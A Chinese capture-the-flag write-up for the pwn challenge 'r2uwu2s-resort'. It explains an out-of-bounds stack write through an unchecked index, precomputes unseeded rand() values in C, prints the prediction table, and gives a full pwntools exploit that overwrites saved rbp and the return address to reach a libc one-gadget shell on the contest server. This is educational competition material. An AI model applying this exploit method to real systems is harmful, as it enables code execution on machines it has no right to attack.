

# r2uwu2s-resort

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.9|

## 解题思路

国外的题就是好啊，源码直接送，只需要专注于利用就好了。

题中打败三只dust bunny就可以退出程序，注意到我们可以通过随机数每次对一只dust
bunny减去随机值，血量使用`int8_t`存储，当小于0时兔子就倒下了。这三只兔子都放在栈上，
但是在指定哪只兔子时，没有限制范围，因此可以直接按偏移打后面的返回地址。

由于随机数是直接减去一个数字，因此我们可以利用原来的返回地址，即`libc_start_call_main+128`，
减去偏移直接打OneGadget。观察OneGadget所需的条件，无不需要rbp为有效值，而rbp会在返回时，
pop返回地址低8字节，原来是1，不是有效值，因此我们还需要控制它，而程序给出了程序基地址，
我们可以使用bss作为rbp。

接下来就是考虑如何通过随机数把rbp和返回地址修改成我们想要的数字。由于没有`srand`，
我这里直接暴力打表，把运算提前来提高效率。

```c
// predict.c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <immintrin.h>

#define MINUS_NUM      256
#define EMPTY_OFFSET   255
#define PREDICTION_MAX 10
#define MAX_CYCLE      10000

uint16_t predictions[MINUS_NUM][PREDICTION_MAX];
int predicted[MINUS_NUM];
__m256i bitmap; // use ymm size avx operation to speed up comparison
unsigned long *bits = (unsigned long *)&bitmap;

void addprediction(unsigned bit, int cycle) {
    if (predicted[bit] >= PREDICTION_MAX)
        return;
    predictions[bit][predicted[bit]++] = cycle;
    if (predicted[bit] >= PREDICTION_MAX)
        bits[bit >> 6] &= ~(1ul << (bit & 0x3f));
}

int filter(void) {
    register int cycle;
    bitmap = _mm256_set1_epi32(-1); // fill bitmap with 1
    for (cycle = 0; cycle < MAX_CYCLE; cycle++) {
        if ((rand() & 0x3) == 3)
            addprediction(EMPTY_OFFSET, cycle);
        else
            addprediction(rand() % 255, cycle);
        if (_mm256_testz_si256(bitmap, bitmap))
            return cycle; // once bitmap is emptied, prediction array is full
    }
    return cycle;
}

void plist(int offset) {
    int cnt = predicted[offset];
    putchar('[');
    if (!cnt)
        goto ret;
    for (int i = 0; i < cnt - 1; i++)
        printf("%d, ", predictions[offset][i]);
    printf("%d", predictions[offset][cnt - 1]);
ret:
    printf("]\n");
    return;
}

void collect(int cycles) {
    fprintf(stderr, "After %d cycles, all predictions are computed:\n", cycles);
    for (int i = 0; i < MINUS_NUM - 1; i++) {
        printf("-%-3d: ", i);
        plist(i);
    }
    printf("CLEAR: ");
    plist(EMPTY_OFFSET);
}

int main(void) {
    int cycles = filter();
    collect(cycles);
    return 0;
}
// gcc -O2 -Wall -Wextra predict.c -o predict -mavx
// ./predict > prediction.txt
```

在运行了7967轮后，我们得到了所有随机数的推断结果。冒号右边是需要在哪几轮运行，
冒号左边是在这几轮运行时，目标位置会减多少：

```plaintext
-0  : [195, 287, 1197, 1394, 1693, 2390, 2517, 2830, 3750, 4267]
-1  : [298, 391, 798, 881, 959, 1253, 1591, 1671, 1903, 2125]
-2  : [98, 255, 355, 399, 459, 733, 1711, 1725, 1857, 1935]
-3  : [228, 260, 336, 413, 496, 598, 1049, 1083, 1488, 1970]
-4  : [719, 1477, 1479, 2533, 3477, 3857, 3916, 4284, 4881, 5809]
-5  : [422, 633, 967, 1034, 1270, 1365, 1708, 1793, 2018, 2240]
-6  : [124, 407, 503, 582, 610, 855, 1004, 1609, 1829, 1858]
-7  : [657, 1013, 1144, 2327, 3016, 3025, 3685, 4025, 4270, 4952]
-8  : [150, 357, 643, 803, 1219, 1363, 1460, 1703, 1964, 2181]
-9  : [68, 300, 462, 600, 924, 1090, 1243, 2052, 2195, 2409]
-10 : [521, 1014, 1174, 1356, 1470, 2344, 2479, 2558, 2649, 2831]
-11 : [276, 306, 498, 1147, 2629, 2846, 2931, 3845, 4015, 4241]
-12 : [151, 317, 732, 812, 1012, 1155, 1333, 1856, 2207, 2600]
-13 : [80, 121, 454, 1287, 2061, 2203, 2887, 4747, 4756, 4954]
-14 : [43, 867, 888, 1017, 1220, 1658, 1680, 2239, 2306, 2775]
-15 : [323, 477, 581, 645, 1163, 1949, 2270, 2614, 3033, 3528]
-16 : [1430, 2787, 3496, 3790, 3985, 4199, 5006, 5176, 5317, 5434]
-17 : [32, 400, 1035, 1724, 1764, 2051, 2143, 2339, 2401, 2576]
-18 : [390, 705, 1047, 1051, 1720, 1808, 2343, 2392, 2803, 3326]
-19 : [7, 807, 822, 1065, 1166, 1379, 1967, 2663, 2731, 2773]
-20 : [861, 921, 991, 3100, 3593, 3722, 3791, 5000, 5853, 5854]
-21 : [360, 628, 941, 2028, 2084, 2577, 2683, 2812, 3142, 3190]
-22 : [174, 510, 676, 1085, 1089, 1345, 1666, 2042, 2287, 2538]
-23 : [622, 945, 1198, 1215, 1533, 1601, 1786, 3074, 3483, 3646]
-24 : [282, 869, 1487, 1522, 1992, 2633, 3225, 3719, 4700, 4850]
-25 : [925, 948, 1204, 1244, 2032, 2402, 2423, 2612, 2815, 3411]
-26 : [226, 683, 743, 917, 1011, 2897, 2992, 3532, 3595, 3922]
-27 : [123, 1180, 1851, 2599, 2947, 3011, 3763, 3829, 3864, 3906]
-28 : [625, 846, 891, 1191, 1336, 3641, 3695, 4018, 4150, 4176]
-29 : [476, 1126, 1855, 2495, 2625, 2918, 3149, 3185, 3568, 3943]
-30 : [41, 691, 785, 979, 1150, 1314, 1518, 1523, 2109, 2118]
-31 : [1184, 1398, 1719, 2476, 2512, 2781, 3005, 3035, 3193, 3209]
-32 : [60, 347, 1589, 2094, 2243, 2724, 2805, 3186, 3345, 3449]
-33 : [113, 481, 1201, 1263, 1444, 1750, 2520, 2899, 2962, 3031]
-34 : [313, 569, 804, 1286, 1342, 1468, 1712, 4220, 4388, 5444]
-35 : [37, 401, 533, 606, 623, 877, 2173, 2960, 3450, 3466]
-36 : [24, 175, 284, 305, 588, 825, 1156, 1575, 1973, 2012]
-37 : [484, 567, 1091, 1536, 1583, 1760, 1859, 2142, 2853, 2900]
-38 : [136, 233, 507, 529, 639, 906, 1000, 1378, 1399, 1495]
-39 : [38, 312, 1167, 2483, 3155, 3520, 3806, 4174, 4513, 4644]
-40 : [1082, 3683, 3885, 4532, 5601, 5964, 6007, 6220, 7815, 7967]
-41 : [1132, 1266, 1761, 1974, 2150, 2290, 2408, 3034, 3047, 3241]
-42 : [153, 494, 1401, 1463, 1473, 2298, 2541, 3273, 3399, 3757]
-43 : [559, 1045, 2964, 3631, 3910, 3921, 3954, 4297, 5446, 6096]
-44 : [152, 395, 618, 838, 922, 1100, 1157, 1187, 1372, 1721]
-45 : [9, 198, 215, 528, 620, 630, 1096, 1918, 2301, 2810]
-46 : [54, 523, 576, 912, 1340, 1955, 2256, 2362, 2636, 2856]
-47 : [431, 629, 782, 1030, 1172, 1231, 2282, 2645, 2681, 2927]
-48 : [325, 378, 1005, 1637, 2131, 2984, 3911, 5579, 6126, 6809]
-49 : [229, 491, 668, 826, 887, 936, 1843, 1879, 2404, 2682]
-50 : [311, 989, 1029, 1907, 2880, 3279, 3457, 3940, 4688, 5279]
-51 : [321, 745, 813, 1095, 1140, 1330, 1900, 2045, 2252, 2321]
-52 : [62, 225, 995, 1039, 1101, 1669, 1679, 2038, 2099, 3070]
-53 : [29, 751, 780, 821, 1415, 2283, 2295, 2434, 2559, 2776]
-54 : [23, 398, 744, 750, 2037, 2417, 2611, 3075, 3328, 3501]
-55 : [506, 532, 827, 889, 1003, 1025, 1254, 1603, 1736, 1957]
-56 : [170, 868, 2525, 2594, 2635, 2833, 2877, 2936, 3063, 3293]
-57 : [445, 518, 1068, 1393, 1819, 2043, 2140, 2230, 2597, 2784]
-58 : [219, 980, 1233, 1329, 1412, 1853, 2424, 2435, 2481, 2670]
-59 : [165, 957, 1297, 1618, 1838, 1924, 2466, 4217, 4234, 4544]
-60 : [144, 154, 853, 1560, 1578, 1731, 1874, 2752, 2768, 2792]
-61 : [21, 33, 249, 405, 1812, 2029, 2069, 2510, 2721, 2771]
-62 : [132, 389, 1392, 2080, 2124, 2157, 2646, 3570, 3756, 3810]
-63 : [326, 406, 473, 687, 768, 1306, 2399, 2470, 2572, 2658]
-64 : [512, 1145, 1202, 1382, 2101, 2133, 2257, 2307, 2369, 2521]
-65 : [72, 609, 797, 958, 1239, 1249, 1369, 1418, 1631, 2062]
-66 : [46, 653, 858, 1190, 1431, 1602, 1672, 2393, 2702, 2896]
-67 : [103, 1084, 1315, 1384, 1831, 2040, 2506, 2949, 3703, 4250]
-68 : [88, 439, 546, 692, 1225, 1353, 1525, 1579, 2280, 2448]
-69 : [102, 179, 224, 366, 1245, 1284, 1374, 1762, 1798, 1876]
-70 : [247, 681, 1186, 1273, 1437, 2748, 2838, 2870, 3440, 3690]
-71 : [351, 568, 1026, 2130, 2213, 2455, 2549, 2586, 2621, 3093]
-72 : [1257, 1509, 1563, 1620, 2107, 2251, 3441, 3978, 4051, 4880]
-73 : [675, 1779, 1943, 2091, 2227, 2291, 3028, 3092, 3362, 3435]
-74 : [133, 250, 314, 379, 2014, 2542, 3072, 3106, 3583, 3692]
-75 : [333, 769, 1053, 1450, 1464, 1489, 1623, 1894, 2255, 2560]
-76 : [63, 309, 1110, 1820, 1873, 1927, 2036, 2067, 2632, 2749]
-77 : [204, 328, 515, 932, 1067, 1653, 3263, 3269, 3577, 3659]
-78 : [231, 240, 339, 1056, 1064, 1103, 2098, 2858, 2989, 3277]
-79 : [267, 447, 526, 900, 1802, 1837, 1931, 2016, 2265, 2357]
-80 : [778, 1052, 1209, 1355, 1367, 2097, 2151, 2156, 2193, 2248]
-81 : [76, 852, 886, 1203, 1954, 2341, 2382, 2539, 2624, 2641]
-82 : [6, 199, 997, 1054, 1515, 1799, 2086, 2809, 3530, 3655]
-83 : [112, 126, 158, 465, 1117, 1424, 1505, 1531, 1551, 1646]
-84 : [665, 1259, 2391, 2679, 2774, 2872, 3037, 3060, 3478, 3554]
-85 : [89, 590, 764, 2104, 2204, 2224, 2232, 2439, 2615, 2950]
-86 : [11, 285, 376, 1129, 1590, 1638, 2561, 2644, 3488, 3557]
-87 : [12, 248, 256, 915, 1494, 1841, 2988, 3137, 3383, 3548]
-88 : [854, 1516, 1749, 1961, 2127, 2882, 3300, 4572, 4593, 4818]
-89 : [35, 82, 394, 483, 616, 728, 730, 903, 1199, 1486]
-90 : [268, 469, 615, 679, 933, 1624, 1661, 1791, 1886, 2049]
-91 : [94, 227, 294, 650, 833, 1822, 2238, 2745, 2859, 2873]
-92 : [191, 489, 724, 1290, 1751, 2059, 2082, 2835, 3315, 3566]
-93 : [448, 470, 1443, 1478, 1645, 1982, 2602, 3261, 3484, 3523]
-94 : [322, 343, 636, 638, 710, 800, 1344, 1932, 2192, 3895]
-95 : [738, 876, 882, 1207, 1317, 1699, 1832, 2068, 2217, 2318]
-96 : [183, 289, 659, 677, 961, 1009, 1475, 2716, 3407, 3493]
-97 : [110, 655, 1565, 2064, 2197, 3393, 3652, 3686, 4239, 4287]
-98 : [141, 337, 1042, 1077, 1216, 1312, 1592, 1979, 2034, 2202]
-99 : [55, 87, 97, 115, 1759, 1785, 1909, 2158, 2472, 2711]
-100: [120, 185, 275, 310, 367, 1079, 1105, 1659, 1994, 2119]
-101: [762, 763, 943, 1727, 1752, 2381, 2677, 3415, 3420, 3971]
-102: [42, 149, 753, 1169, 1350, 2925, 3930, 3979, 4078, 4254]
-103: [167, 641, 771, 808, 878, 1795, 1951, 2351, 2743, 3191]
-104: [188, 540, 770, 773, 1527, 2071, 3321, 4179, 4822, 4882]
-105: [349, 441, 662, 801, 1074, 1275, 1427, 1598, 1619, 1897]
-106: [108, 1142, 1455, 1700, 1704, 1890, 2163, 2360, 2807, 2820]
-107: [301, 388, 816, 1104, 1139, 1346, 1744, 1839, 1860, 2066]
-108: [85, 163, 243, 536, 815, 1339, 1436, 1530, 1689, 1695]
-109: [116, 432, 1206, 1241, 2372, 3323, 3371, 4919, 5647, 5666]
-110: [557, 758, 901, 1066, 1075, 1086, 1107, 1765, 1906, 1986]
-111: [449, 985, 1189, 1552, 1990, 2025, 2407, 2818, 3024, 3096]
-112: [575, 1154, 1500, 1610, 2008, 2044, 2320, 3085, 3610, 3762]
-113: [252, 296, 497, 1118, 1432, 3062, 3234, 3616, 3854, 4038]
-114: [457, 479, 580, 949, 969, 1210, 1368, 2015, 2077, 2162]
-115: [109, 874, 1073, 1228, 1448, 1809, 1871, 1995, 2187, 2311]
-116: [220, 427, 670, 672, 1407, 1953, 2536, 2719, 2782, 3550]
-117: [18, 210, 279, 682, 1366, 1458, 1634, 1983, 2030, 2813]
-118: [95, 840, 856, 897, 928, 1040, 1069, 1320, 2090, 3134]
-119: [879, 1023, 1138, 1192, 1395, 1706, 1981, 2484, 2491, 2546]
-120: [147, 525, 2000, 2160, 2346, 2640, 2934, 3344, 3869, 3890]
-121: [5, 77, 952, 1919, 2135, 2447, 3111, 3309, 3768, 4173]
-122: [59, 350, 1076, 1585, 1686, 2102, 2286, 2522, 3308, 3473]
-123: [48, 232, 429, 684, 1608, 2562, 3494, 3828, 4152, 4490]
-124: [264, 482, 1622, 1642, 1914, 3275, 4142, 5028, 5924, 6111]
-125: [207, 727, 1148, 1323, 1349, 1950, 1962, 2656, 3002, 3125]
-126: [505, 571, 1281, 1364, 1640, 1872, 1904, 2089, 2164, 2185]
-127: [217, 725, 1214, 1521, 1557, 1868, 2259, 2979, 3447, 3645]
-128: [244, 327, 595, 752, 2511, 2674, 4085, 4244, 4599, 5848]
-129: [415, 1087, 1097, 1766, 2057, 2579, 3680, 4154, 4314, 5147]
-130: [663, 690, 845, 930, 1170, 1542, 1687, 1842, 2557, 2725]
-131: [262, 320, 468, 495, 661, 783, 1115, 1133, 1153, 1218]
-132: [283, 535, 538, 539, 573, 859, 862, 892, 908, 1031]
-133: [105, 480, 937, 1386, 1497, 1568, 1626, 2953, 3131, 3525]
-134: [162, 651, 871, 1114, 1826, 1913, 2459, 2750, 3310, 5528]
-135: [51, 129, 251, 490, 501, 556, 1383, 1426, 1925, 2194]
-136: [680, 700, 885, 916, 956, 1506, 1941, 1996, 2233, 2356]
-137: [75, 202, 828, 971, 1493, 1655, 1971, 2865, 3103, 3108]
-138: [52, 125, 962, 1381, 2503, 3167, 3305, 3367, 3492, 3564]
-139: [302, 372, 1300, 1777, 2039, 2371, 2826, 3107, 3276, 3423]
-140: [168, 939, 1291, 1388, 1865, 2129, 2791, 3001, 3065, 3139]
-141: [245, 1331, 1354, 1417, 1884, 1976, 3535, 3625, 4171, 4231]
-142: [10, 26, 747, 981, 1046, 3010, 3175, 3177, 3396, 3471]
-143: [403, 404, 844, 988, 1008, 1803, 2669, 3064, 3067, 4655]
-144: [277, 834, 1044, 1252, 1303, 1375, 2078, 2366, 2441, 2660]
-145: [1037, 1288, 1737, 1885, 3099, 3109, 3759, 4192, 4472, 4546]
-146: [742, 759, 817, 950, 1205, 1271, 1806, 3486, 3500, 3772]
-147: [61, 70, 968, 1108, 1600, 1709, 1726, 2297, 2652, 2783]
-148: [222, 329, 1293, 1513, 1549, 1788, 1912, 1952, 2112, 2380]
-149: [27, 1519, 2244, 2445, 2578, 3464, 3744, 4035, 4380, 4453]
-150: [40, 65, 171, 791, 1128, 1285, 1422, 1627, 2063, 2136]
-151: [131, 788, 953, 1328, 1440, 1452, 1561, 3087, 3270, 3467]
-152: [1541, 1664, 2065, 2840, 2999, 3216, 3934, 4086, 4282, 5355]
-153: [19, 192, 377, 1232, 1632, 1722, 2347, 2354, 2482, 2534]
-154: [272, 340, 607, 1888, 2496, 2607, 2747, 2827, 2864, 3153]
-155: [239, 975, 1818, 2114, 2236, 2421, 2637, 2714, 2942, 3187]
-156: [425, 1650, 1783, 1862, 2514, 2777, 2959, 2990, 3825, 3999]
-157: [739, 920, 1059, 1305, 1447, 1889, 1972, 2002, 2955, 3141]
-158: [418, 621, 715, 784, 1373, 2022, 2416, 2785, 3104, 3560]
-159: [544, 1282, 1554, 2704, 2987, 3214, 3230, 3254, 3725, 3858]
-160: [626, 664, 1143, 1299, 1571, 1748, 1756, 2054, 2079, 2628]
-161: [419, 754, 1016, 1532, 1641, 1923, 2263, 2627, 2701, 2754]
-162: [1, 767, 919, 1457, 1815, 2249, 2671, 3341, 3505, 3533]
-163: [318, 627, 1584, 2177, 2225, 2420, 2516, 2969, 3204, 3389]
-164: [58, 270, 695, 755, 761, 1454, 1596, 2305, 2438, 3210]
-165: [634, 1265, 2073, 3280, 3784, 3970, 4027, 4279, 4387, 5383]
-166: [358, 644, 766, 1196, 1474, 1597, 2092, 2854, 3769, 3815]
-167: [13, 39, 1969, 2639, 2657, 2822, 3165, 3421, 3883, 3935]
-168: [99, 122, 230, 369, 848, 976, 2501, 3287, 3543, 3761]
-169: [148, 341, 414, 880, 1113, 1307, 1400, 1544, 1614, 1616]
-170: [597, 678, 2383, 2450, 2475, 2746, 3650, 4376, 4418, 5025]
-171: [299, 1229, 1376, 1502, 1507, 1784, 2200, 2314, 2736, 3630]
-172: [73, 307, 502, 504, 553, 2222, 2828, 2913, 3169, 3259]
-173: [611, 1242, 1358, 1587, 2303, 4063, 4189, 4545, 5017, 5319]
-174: [166, 1240, 1570, 1776, 2161, 2178, 2293, 2891, 3333, 3469]
-175: [426, 592, 667, 671, 993, 1121, 1149, 1298, 1334, 1409]
-176: [197, 286, 574, 631, 905, 1878, 2208, 2543, 2717, 2759]
-177: [181, 699, 737, 841, 1508, 1891, 2229, 2762, 2881, 3164]
-178: [342, 471, 558, 1580, 2093, 2453, 2763, 4520, 4658, 4781]
-179: [130, 605, 608, 814, 1136, 1359, 1717, 2415, 2680, 4109]
-180: [34, 749, 1236, 2325, 2758, 2832, 3552, 3835, 3850, 3915]
-181: [552, 2035, 2726, 3068, 3091, 3458, 3888, 4092, 4113, 4649]
-182: [811, 986, 1324, 1588, 2041, 2924, 3223, 3553, 3950, 4203]
-183: [789, 902, 1548, 1577, 1656, 1845, 2184, 2234, 2684, 2720]
-184: [50, 716, 1438, 1476, 1535, 1810, 1960, 2345, 2394, 2581]
-185: [86, 543, 849, 1404, 2048, 2373, 4004, 4197, 4931, 5136]
-186: [90, 392, 703, 1387, 1529, 2220, 3235, 3363, 3506, 3758]
-187: [456, 635, 1043, 1576, 1755, 1965, 2148, 2619, 2946, 2972]
-188: [47, 205, 847, 1152, 1496, 1754, 1887, 2132, 2565, 3201]
-189: [194, 829, 909, 1238, 1611, 2258, 2331, 2492, 2708, 2907]
-190: [3, 201, 524, 702, 774, 1002, 1041, 1572, 1586, 1734]
-191: [160, 291, 463, 893, 1948, 2740, 2855, 2906, 2919, 3632]
-192: [134, 365, 396, 589, 926, 1141, 1480, 1667, 2241, 3156]
-193: [146, 424, 656, 907, 934, 1681, 2332, 2570, 2861, 3066]
-194: [96, 127, 818, 2189, 2313, 2583, 2654, 2871, 3073, 3337]
-195: [290, 547, 591, 1058, 1122, 1280, 1797, 1910, 2363, 2474]
-196: [30, 359, 748, 787, 1019, 1099, 1119, 1234, 2003, 2712]
-197: [155, 246, 1001, 1414, 1562, 1792, 2509, 2605, 2929, 2943]
-198: [1021, 1171, 1984, 2540, 2603, 2903, 3260, 3893, 4543, 5073]
-199: [362, 492, 723, 1183, 1309, 1647, 2309, 3050, 3152, 3319]
-200: [564, 964, 2326, 2573, 4232, 5341, 5421, 5613, 6316, 6615]
-201: [332, 923, 1177, 1274, 1652, 3042, 3996, 5634, 5777, 5825]
-202: [45, 196, 434, 594, 982, 1094, 1131, 1221, 1607, 1630]
-203: [555, 1250, 1419, 1524, 1697, 2426, 2515, 2551, 2911, 3205]
-204: [772, 895, 1078, 1615, 1625, 1636, 1682, 1834, 2497, 2504]
-205: [417, 436, 1817, 1827, 1947, 1978, 2667, 2767, 3451, 3928]
-206: [898, 1137, 1824, 2464, 2933, 4379, 4580, 5164, 5902, 6018]
-207: [173, 184, 444, 452, 649, 1371, 2254, 2296, 2664, 3697]
-208: [1130, 1733, 1816, 2152, 2210, 2585, 2703, 2981, 3281, 3314]
-209: [223, 381, 442, 587, 601, 1534, 2072, 2433, 3086, 3267]
-210: [236, 527, 1123, 1262, 1511, 2691, 2895, 2957, 3015, 3173]
-211: [1036, 2167, 2462, 3188, 3272, 3340, 3495, 3503, 3962, 4151]
-212: [14, 295, 586, 1135, 1864, 1933, 2005, 2454, 3237, 3388]
-213: [214, 288, 386, 736, 1088, 1651, 2268, 3547, 3732, 4033]
-214: [66, 385, 513, 717, 726, 1429, 1581, 1730, 2139, 2302]
-215: [128, 433, 927, 1164, 2358, 2367, 2471, 2650, 3706, 3740]
-216: [208, 929, 1308, 1337, 1472, 2821, 4327, 4424, 4487, 4575]
-217: [344, 1018, 1433, 1677, 1715, 2087, 2386, 2531, 2665, 2689]
-218: [119, 254, 560, 658, 708, 734, 863, 1134, 1880, 2169]
-219: [271, 1038, 1469, 1944, 2076, 2532, 2718, 2926, 3105, 3417]
-220: [319, 554, 577, 613, 1072, 1194, 1261, 2046, 2427, 3013]
-221: [31, 646, 756, 1326, 2186, 2337, 2687, 2862, 2945, 3284]
-222: [331, 689, 894, 1061, 1553, 1852, 1993, 2009, 2377, 2732]
-223: [178, 235, 450, 632, 1294, 1313, 2074, 2221, 2226, 2456]
-224: [172, 973, 1181, 1408, 1594, 1665, 1691, 2209, 2336, 2564]
-225: [602, 966, 1269, 2081, 2159, 2384, 2596, 3161, 3406, 3720]
-226: [145, 338, 520, 614, 1684, 1945, 2276, 2638, 2738, 3128]
-227: [177, 200, 578, 604, 648, 938, 987, 1032, 1127, 1850]
-228: [1462, 1928, 2275, 2574, 3233, 3498, 3660, 4040, 4458, 4558]
-229: [478, 548, 757, 911, 1125, 1318, 1423, 2425, 2429, 2432]
-230: [91, 1227, 1278, 1898, 1939, 2154, 2793, 3246, 3804, 3812]
-231: [402, 516, 531, 1327, 1405, 1504, 1628, 2554, 2734, 3077]
-232: [142, 1092, 1411, 1574, 1763, 1866, 1963, 2033, 2201, 3051]
-233: [238, 836, 1109, 1311, 1867, 2001, 2100, 2556, 3036, 3274]
-234: [293, 368, 563, 1442, 1635, 1893, 2364, 2634, 2802, 3871]
-235: [805, 850, 1746, 1915, 2056, 2722, 3424, 4607, 5085, 5464]
-236: [64, 884, 1050, 1403, 2378, 2623, 2779, 3534, 3540, 4298]
-237: [20, 346, 460, 561, 872, 983, 1063, 1116, 1481, 1599]
-238: [335, 438, 1605, 1940, 2020, 3549, 3551, 3775, 4400, 4525]
-239: [241, 1347, 1538, 1741, 3244, 3412, 3538, 3709, 5009, 6244]
-240: [387, 1416, 1782, 1905, 1921, 1980, 2260, 2348, 3094, 3113]
-241: [549, 790, 1055, 1745, 1958, 2465, 2630, 2709, 3133, 3320]
-242: [565, 806, 1449, 1674, 1698, 2267, 2643, 2699, 3118, 3637]
-243: [138, 522, 537, 545, 777, 1168, 1325, 1435, 1673, 1757]
-244: [212, 1256, 1491, 2231, 2277, 2529, 2756, 3268, 3286, 3297]
-245: [206, 316, 583, 1643, 1675, 1920, 2126, 2128, 2457, 2502]
-246: [364, 493, 660, 688, 792, 875, 1020, 1370, 1883, 2011]
-247: [237, 775, 963, 1295, 1421, 1790, 2166, 2299, 2340, 2837]
-248: [297, 393, 410, 944, 1060, 2149, 2622, 2753, 2921, 2922]
-249: [356, 411, 718, 1916, 2547, 3038, 3041, 3120, 3307, 3938]
-250: [161, 303, 363, 674, 1332, 1362, 2196, 2199, 3531, 3777]
-251: [180, 475, 914, 1165, 1938, 2060, 2385, 2552, 2868, 3227]
-252: [4, 707, 1351, 1639, 2096, 2281, 2403, 2431, 3361, 3638]
-253: [242, 530, 1213, 1310, 1352, 1566, 1767, 1899, 1987, 2430]
-254: [93, 551, 711, 1112, 1292, 1922, 2274, 2324, 2666, 2975]
CLEAR: [0, 2, 8, 15, 16, 17, 22, 25, 28, 36]
```

再然后使用Python读取结果，并根据给出的程序基址计算需要减去哪些值，并找到对应的轮，
在那轮控制偏移就可以实现近乎任意地址写。最后把剩下的一只兔子打败就可以返回跳到OneGadget，
拿shell读flag。

> [!IMPORTANT]
> 本来exp是一轮一轮交互的，但是发得很慢，不可能在60s之内发完（一分钟只能交互300轮左右）。
> 正当我头疼怎么优化时，我想到由于每轮数字是使用`scanf`读取的，`scanf`属于标准IO，
> 存在缓存，因此可以一股脑把所有操作都发过去，会一起处理，从而节约了来回发所消耗的时间。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './resort'

prediction = {}
with open('prediction.txt', 'r') as pred:
    for line in pred.readlines():
        if ':' not in line:
            continue
        if 'CLEAR' in line:
            prediction[255] = safeeval.const(line[7:])
        else:
            prediction[int(line[1:4])] = safeeval.const(line[6:].strip())

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x16a2) if $rdx != 4\nb *$rebase(0x16dd) if $rdx != 4\nc')
    else:
        sh = remote('dicec.tf', 32030)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.9_amd64/libc.so.6')
    elf = ELF(EXE)
    buf = bytearray()

    def attack(offset: int, buffer: bool=True):
        # choice - 1 when attacking actual bunny
        if buffer:
            buf.extend(str(offset + 1).encode() + b'\n')
        else:
            sh.sendline(str(offset + 1).encode())
            sh.recvuntil(b'against', timeout=2)

    def diff(offset: int, vfrom: int, vto: int) -> list[tuple[int, int]]:
        tobytes = p64(vto)
        frombytes = p64(vfrom)
        result = []
        for i, pack in enumerate(zip(tobytes, frombytes)):
            if pack[0] == pack[1]:
                continue
            if pack[0] == 0:
                result.append((offset + i, 255)) # in our c code, 255 is "empty out"
            else:
                d = pack[1] - pack[0]
                if d < 0:
                    d += 0x100
                result.append((offset + i, d))
        return result
    
    sh.recvuntil(b'r2uwu2 @ ')
    pieBase = int(sh.recv(16), 16) - elf.symbols['print_ui']
    targetRbp = pieBase + 0x4800
    info(f"Change rbp to: {GOLD_TEXT(hex(targetRbp))}")
    rbpdiff = diff(0x64, 1, targetRbp)

    libcStartMain = 0x29d90
    oneGadget = 0xebc81
    retaddrdiff = diff(0x6c, libcStartMain, oneGadget)

    # beat bunny 0, 1 by the way
    difference = [(0, 255), (1, 255)] + rbpdiff + retaddrdiff
    queried = [0] * len(prediction)
    queue = []
    for i, v in difference:
        queue.append((i, prediction[v][queried[v]]))
        queried[v] += 1

    queue.sort(key=lambda x: x[1])
    info(f"Bytes to change: {queue}")
    
    lastidx = queue[-1][1]
    consumer = 0
    for i in range(lastidx + 1):
        # (100, 8): match in 8th round, send 100th bunny
        if i == queue[consumer][1]:
            attack(queue[consumer][0])
            consumer += 1
        else:
            attack(3)
    # send buffer now!
    info(f"Sending {len(buf)} bytes of attacks...")
    sh.sendlineafter(b'against', bytes(buf))
    sh.clean(2)
    while attack(2, False):
        pass # attack bunny 2 until we win
    success('Dropping a shell...')
    
    sh.clean()
    sh.interactive()
    sh.close()
```


